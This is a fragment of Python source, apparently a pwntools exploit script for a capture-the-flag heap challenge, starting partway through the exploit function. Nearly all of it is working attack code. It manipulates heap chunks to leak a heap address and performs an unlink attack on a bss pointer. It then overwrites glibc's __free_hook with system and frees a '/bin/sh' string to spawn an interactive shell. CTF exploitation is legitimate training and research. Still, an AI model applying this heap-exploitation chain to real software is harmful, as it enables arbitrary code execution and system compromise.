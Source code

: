 ```py

    Delete(3)
    Delete(4)
    Delete(5)
    Edit(2,'\x00'*0x78)

    Add(0x78)#3
    Add(0x78)#4


    Delete(3)
    Delete(6)


    Add(0x78)#3
    Add(0x78)#5
    Add(0x78)#6
    Add(0x78)#8

    # 4 == 5

    Delete(1)
    Delete(4)
    Delete(6)

    #leak heap
    Show(5)
    heap_addr = u64(p.recvline().strip('\n').ljust(8,'\x00')) - 0x80
    log.success('heap addr => ' + hex(heap_addr))

    #get shell
    Add(0x78)#1
    Add(0x78)#4
    Add(0x78)#6
    Add(0x78)#9


    # 4 == 5
    Delete(3)
    Delete(4)
    Delete(6)

    Add(0x28)#3
    Add(0x78)#4
    bss_addr = 0x602310
    #unlink
    Edit(3,p64(0)+p64(0x20)+p64(bss_addr-0x18)+p64(bss_addr-0x10)+p32(0x20))
    Edit(4,'\x00'*0x40+p64(0x70)+p64(0x30))


    Delete(5)
    Edit(3,p32(0)+p32(0x78)+p64(libc.symbols['__free_hook'])+p32(0x1)+p32(0x78)+p32(0x6022f8))
    Edit(2,p64(libc.symbols['system']))
    Edit(0,'/bin/sh\x00')
    gdb.attach(p)
    Delete(0)

    p.interactive()

exp()
```
